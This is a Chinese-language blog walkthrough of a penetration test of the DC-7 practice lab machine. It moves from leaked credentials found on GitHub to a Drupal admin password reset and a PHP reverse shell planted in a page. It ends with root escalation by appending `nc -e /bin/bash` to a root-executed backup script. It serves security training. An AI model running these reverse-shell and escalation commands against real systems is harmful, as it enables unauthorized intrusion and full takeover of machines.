 ```yaml
---
title: DC_7靶机渗透测试 
date: 2020-09-14 14:06
swiper: false # 将改文章放入轮播图中
swiperImg: '' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_3.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: 渗透测试
tags: [渗透测试, DC]   # 可以是数组
top: false



---
```


# DC_7靶机渗透测试

## 一、信息收集

- 扫描主机并查看开放了哪些端口

![image-20210704200627247](http://cdn.mxrblog.cn/image-20210704200627247.png)

- 进入靶机页面

![image-20210704200224803](http://cdn.mxrblog.cn/image-20210704200224803.png)

- 根据上面所说，我们会在这次实验中获得新的知识，这不全是关于技术方面的，还有一些其他的，如果我们非要使用字典暴力破解，我们可能会得到失败的结果。
- 所以按照提示所说，我们注意到outside the box，也就是文字框之外的东西，注意到下面有个@DC7USER，尝试在这上面下功法

![image-20210704195910291](http://cdn.mxrblog.cn/image-20210704195910291.png)

- Google一下，看看是否有神奇的事情发生

![image-20210704200939048](http://cdn.mxrblog.cn/image-20210704200939048.png)

- 打开这个DcUser的仓库，看看有什么值得我们挖掘的

![image-20210704201412676](http://cdn.mxrblog.cn/image-20210704201412676.png)

![image-20210704201446429](http://cdn.mxrblog.cn/image-20210704201446429.png)

- 我们发现的一个数据库的账号密码，尝试用这个数据库的账号密码进行ssh远程登录连接**(万事成功皆始于尝试！！！)**

![image-20210704201944625](http://cdn.mxrblog.cn/image-20210704201944625.png)

- 查看一下都有啥，发现一封新邮件，于是查看这封邮件，只发现给了一个 /opt/scripts/backups.sh

![image-20210704202527016](http://cdn.mxrblog.cn/image-20210704202527016.png)

- 运行一下这个文件看看会有什么情况发生，但是发现知只是运行了一下备份程序

![image-20210704202842039](http://cdn.mxrblog.cn/image-20210704202842039.png)

- 查看一下这个备份文件的内容，发现命令drush，通过这个命令我们可以修改Drupal的后台管理员admin的密码

![image-20210704203131035](http://cdn.mxrblog.cn/image-20210704203131035.png)

```
运行 drush user-password someuser --password="password" 命令重设用户密码。

drush user-password admin --password="123"
```

- 运行的时候发现报错，说运行环境必须是Drupal环境，于是我们进入/var/www/html 进行运行

![image-20210704204351108](http://cdn.mxrblog.cn/image-20210704204351108.png)

- 用修改过的密码登录

![image-20210704205049268](http://cdn.mxrblog.cn/image-20210704205049268.png)

- 为了能够反弹shell，我们下载php插件，这个在durpal7里面是自带的，但是版本8为了安全起见需要用户自行安装

- 安装链接为： 

```
https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz
```

![image-20210704210039029](http://cdn.mxrblog.cn/image-20210704210039029.png)

![image-20210704205822856](http://cdn.mxrblog.cn/image-20210704205822856.png)

![image-20210704205940056](http://cdn.mxrblog.cn/image-20210704205940056.png)

![image-20210704210114085](http://cdn.mxrblog.cn/image-20210704210114085.png)

![image-20210704210415079](http://cdn.mxrblog.cn/image-20210704210415079.png)

- 在Content栏选择Welcome to DC-7 进行页面编辑

![image-20210704210651960](http://cdn.mxrblog.cn/image-20210704210651960.png)

- 编辑页面，用过php进行反弹shell

```
<?php system('nc -e /bin/bash 192.168.1.8 4444')?>
```

![image-20210704212041999](http://cdn.mxrblog.cn/image-20210704212041999.png)

- 回到Welcome to DC-7页面浏览后(刷新)，在攻击机器nc开启4444端口进行监听

![image-20210704212209875](http://cdn.mxrblog.cn/image-20210704212209875.png)

- 获取交互式shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20210704212311287](http://cdn.mxrblog.cn/image-20210704212311287.png)

- 发现文件/opt/scripts/backups.sh是以root身份执行的

![image-20210704213029372](http://cdn.mxrblog.cn/image-20210704213029372.png)

- 向该文件中写入反弹shell命令， 反弹到我们的攻击机器上

```
echo "nc -e /bin/bash 192.168.1.8 6666" >> backups.sh
```

- 攻击机器打开6666号端口，nc进行流量监听

![image-20210704220139504](http://cdn.mxrblog.cn/image-20210704220139504.png)

